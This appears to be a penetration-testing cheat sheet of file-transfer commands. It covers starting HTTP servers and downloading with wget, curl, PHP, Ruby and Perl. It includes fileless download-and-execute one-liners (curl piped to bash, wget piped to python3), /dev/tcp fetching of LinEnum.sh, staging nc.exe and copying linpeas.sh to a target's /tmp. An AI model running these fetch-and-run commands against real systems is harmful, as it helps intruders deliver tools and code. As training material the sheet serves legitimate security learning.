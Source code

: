 ### **Setting Up an HTTP Server and Downloading a File Using Python 2**

1.  Start a http server:  
    `python -m SimpleHTTPServer 8000`
2.  Download file using python:  
    `python2 -c 'import urllib;urllib.urlretrieve ("http://[IP-ADRESS]:8000/file.txt", "file.txt")'`
3.  Download file using wget:  
    `wget http://[IP-ADRESS]:8000/file.txt`
4.  Download file using curl:  
    `curl –O https://[IP-ADRESS]:8000/file.txt`

### **Setting Up an HTTP Server and Downloading a File Using Python 3**

1.  Start a http server:  
    `python3 -m http.server 8000`
2.  Download file using python:  
    `python3 -c 'import urllib.request;urllib.request.urlretrieve("http://[IP-ADRESS:8000]/file.txt", "file.txt")'`
3.  Download file using wget  
    `wget http://[IP-ADRESS]:8000/file.txt`
4.  Download file using curl  
    `curl –O https://[IP-ADRESS]:8000/file.txt`

### **Setting Up an Apache Server and Downloading a File**

1.  Put files into the apache web directory:  
    `cp nc.exe /var/www/html`
2.  Start the apache server  
    `sudo systemctl start apache2`
3.  Download file using wget   
    `wget http://[IP-ADRESS]:8000/file.txt`
4.  Download file using curl   
    `curl –O https://[IP-ADRESS]:8000/file.txt`

### **Setting Up an HTTP Server and Downloading Files Using PHP**

1.  Start a http server:    
    `php -S 0.0.0.0:8000`
2.  Download a file using file_get_contents and file_put_contents:   
    `php -r '$file = file_get_contents("http://[IP-ADRESS]:8000/file.txt"); file_put_contents("file.txt",$file);'`
3.  Download a file using fopen:   
    `php -r 'const BUFFER = 1024; $fremote = fopen("http://[IP-ADRESS]:8000/file.txt", "rb"); $flocal = fopen("file.txt", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'`
4.  Download and pipe to bash:    
    `php -r '$lines = @file("http://[IP-ADRESS]:8000/file.txt"); foreach ($lines as $line_num => $line) { echo $line; }' | bash`
5.  Download file using wget :
    
    `wget http://[IP-ADRESS]:8000/file.txt`
6.  Download file using curl :  
    `curl –O https://[IP-ADRESS]:8000/file.txt`

### **Setting Up an HTTP Server and Downloading Files Using Ruby**

1.  Start an HTTP server:  
    `ruby -run -e httpd . -p 8000`
2.  Download file using Ruby:  
    `ruby -e 'require "net/http"; File.write("file.txt", Net::HTTP.get(URI.parse("http://[IP-ADDRESS]:8000")))'`
3.  Download file using wget:  
    `wget http://[IP-ADDRESS]:8000/file.txt`
4.  Download file using curl:  
    `curl -O https://[IP-ADDRESS]:8000/file.txt`


### **Fileless Downloads**

1.  Curl to bash: Download and execute script without saving.  
    `curl http://[IP-ADDRESS]:8000/script.sh | bash`
2.  Wget to Python: Download Python script and execute without saving.  
    `wget -qO- http://[IP-ADDRESS]:8000/script.py | python3`
3.  Download file using Perl:  
    `perl -e 'use LWP::Simple; getstore("http://[IP-ADDRESS]:8000/file.txt", "file.txt");'`

### **Bash (/dev/tcp) Downloads**

1.  Connect to the target webserver:  
    `exec 3<>/dev/tcp/[IP-ADDRESS]/80`
2.  Send HTTP GET request:  
    `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`
3.  Print the response:  
    `cat <&3`


### **Base64 Encoding and Decoding**

1.  Encode file to Base64:  
    `cat file | base64 -w 0; echo`
2.  Decode Base64 to file:  
    `echo -n 'BASE64-STRING' | base64 -d > output_file`


### **SSH and SCP Operations**

1.  `scp -P 6498 linpeas.sh [USERNAME]@[IP-ADRESS]:/tmp`